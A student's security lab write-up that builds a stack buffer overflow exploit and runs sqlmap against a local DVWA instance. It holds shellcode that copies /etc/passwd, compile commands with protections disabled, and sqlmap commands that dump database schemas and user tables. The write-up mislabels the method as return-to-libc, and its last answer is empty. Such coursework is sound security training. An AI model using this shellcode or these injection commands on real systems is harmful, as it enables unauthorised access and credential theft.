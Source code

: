 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)



## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

**Conclusion:** *The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* 

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of ebp:* 

```sh
disas main
```
![image](https://github.com/user-attachments/assets/dc32b882-b763-448c-8f0e-d8a593cb7064)




## 6. Conduct an attack: 
*Construct a payload*: 

![image](https://github.com/user-attachments/assets/403a0863-cb42-41a9-9e86-41d9bdde6f65)

```sh
python exploit.py | ./vuln
```


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" -- cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```
![image](https://github.com/user-attachments/assets/42916b8d-1481-4c4a-a85b-92322cb1efc4)

*Revealing the database schemas*:

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" -- cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" -- cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:










